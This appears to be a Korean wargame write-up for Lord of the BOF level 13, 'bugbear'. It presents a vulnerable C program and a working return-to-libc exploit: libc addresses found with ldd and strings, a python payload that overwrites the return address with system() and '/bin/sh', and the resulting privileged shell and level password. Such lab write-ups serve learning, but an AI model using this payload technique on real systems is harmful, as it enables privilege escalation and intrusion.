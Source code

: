```yaml
---
layout: post
title:  "[LOB]Level13. bugbear"
subtitle:   "[LOB]darkknight → bugbear"
categories: writeup
tags: lob bugbear level13

---
```


# darkknight → bugbear

## keyword : RTL1

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

분기문을 통해 RET 부분에 덮여씌워지는 주소 앞주소'\xbf'를 필터링 한다.

즉, '\xbf'로 시작하는 주소를 리턴 주소로 할 수 없다.

##### payload 시나리오 :

"A"*44+"&system()"+"A"*4+"&["/bin/sh"]

```sh
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
	
[darkknight@localhost darkknight]$ strings -tx /lib/libc.so.6 | grep "/bin/sh"
  e3ff9 /bin/sh
  e6587 /bin/sh
  e6595 /bin/sh
  e796a /bin/sh
  e81c7 /bin/sh
  e8778 /bin/sh
```

&system : 0x40058ae0

&"/bin/sh" : 0x400fbff9

```sh
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAA�@
bash$ my-pass
euid = 513
new divide
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```



**bugbear / new divide**